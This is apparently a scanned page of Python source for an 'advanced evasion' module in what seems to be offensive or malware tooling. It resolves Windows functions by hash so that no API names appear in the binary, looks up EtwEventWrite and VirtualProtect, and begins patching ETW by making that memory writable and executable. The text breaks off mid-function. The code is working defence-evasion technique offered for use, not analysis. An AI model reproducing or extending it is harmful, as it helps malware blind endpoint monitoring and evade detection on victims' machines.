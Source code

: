 
**Integration into existing code:**

```python
# Core/advanced_evasion.py - FIXED VERSION

from .api_hashing import APIHashResolver

class AdvancedEvasion:
    def __init__(self):
        self.is_windows = sys.platform == 'win32'
        self.evasion_applied = set()
        
        if self.is_windows:
            # Initialize API resolver (NO GetProcAddress!)
            self.api_resolver = APIHashResolver()
            
            # Pre-resolve all APIs we need
            self._resolve_apis()
    
    def _resolve_apis(self):
        """Resolve all APIs using hashing"""
        # Resolve by hash only (no strings)
        ntdll_hash = 0x1EDAB0ED
        kernel32_hash = 0x6A4ABC5B
        
        # ntdll functions
        self.ntdll_base = self.api_resolver.get_module_base_hashed(ntdll_hash)
        self.etw_event_write = self.api_resolver.get_proc_address_hashed(
            self.ntdll_base, 0x9B4C8D73  # EtwEventWrite
        )
        
        # kernel32 functions  
        self.kernel32_base = self.api_resolver.get_module_base_hashed(kernel32_hash)
        self.virtual_protect = self.api_resolver.get_proc_address_hashed(
            self.kernel32_base, 0x7946C61B  # VirtualProtect
        )
        
        # Create function pointers
        self.VirtualProtect = ctypes.WINFUNCTYPE(
            wintypes.BOOL,
            ctypes.c_void_p,
            ctypes.c_size_t,
            wintypes.DWORD,
            ctypes.POINTER(wintypes.DWORD)
        )(self.virtual_protect)
    
    def patch_etw(self) -> bool:
        """Patch ETW using hashed API resolution"""
        if not self.is_windows or 'etw' in self.evasion_applied:
            return False
        
        try:
            # etw_event_write already resolved via hashing
            if not self.etw_event_write:
                return False
            
            # Rest of patching code (same as before)
            old_protect = wintypes.DWORD()
            if not self.VirtualProtect(
                self.etw_event_write, 1, 0x40,
                ctypes.byref(old_protect)
            ):
                return False
            
```